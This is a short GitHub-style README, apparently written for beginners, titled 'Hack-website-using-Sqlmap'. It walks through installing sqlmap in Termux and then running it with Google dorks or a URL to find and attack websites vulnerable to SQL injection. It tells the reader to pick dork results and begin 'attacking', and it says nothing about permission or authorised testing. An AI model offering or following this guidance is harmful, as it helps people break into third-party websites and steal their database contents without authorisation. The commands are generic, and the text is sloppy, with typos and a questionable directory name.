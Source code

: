 # Hack-website-using-Sqlmap
Requirements :
Termux App
SQL-Map (Its Important for hack website)
Hacker’s Keybord
FileManager
Patience & Brain
SQLMap Installation Method :
SQLmap is the one of the most Popular and powerful SQL injection tool out there. Given a vulnerable http request URL, sqlmap can exploit database and tables.

Its Return on Python so need to install python on your termux

For the list of options and parameters that can be used with the sqlmap command, check the sqlmap documentation at here.

Steps to Install SQLMAP:
First download the all app above Mentions.
Now Open termux and Follow my commands.
First Give command $ apt update & apt upgrade
$ pkg install python
$ pkg install python2
$ git clone https://github.com/sqlmapproject/sqlmap
$ ls
$ cd sqlmap-master
$ ls
Now you run the sqlmap
$ python2 sqlmap.py (If you see this red color sqlmap then relax yourself! You are done with the installation of sqlmap. Now next step is hacking the website using sqlmap. You need to find a website with SQL vulnerability. For this, use sqlmap google dork to find websites.)
If you using the dork the do command. $ python2 sqlmap.py -g Your_dork
If you want using direct URL then do command, $ python2 sqlmap.py -u Your_URL
If you want help then you simply type $ python2 sqlmap.py -h (itmis for basic help)
For advance help type $ python2 sqlmap.py -hh
If you want to hack website database and tables then type the command $python2 sqlmap.py -g your_dork or $ python2 sqlmap.py -u your_URL
In google dork method, it will give you three option :
Yes for attacking first site, which comes in result. For proceeding further, you need to type “y”.
For skipping to the next target you can use “n”
For quitting, use “q”.
Attacking Start
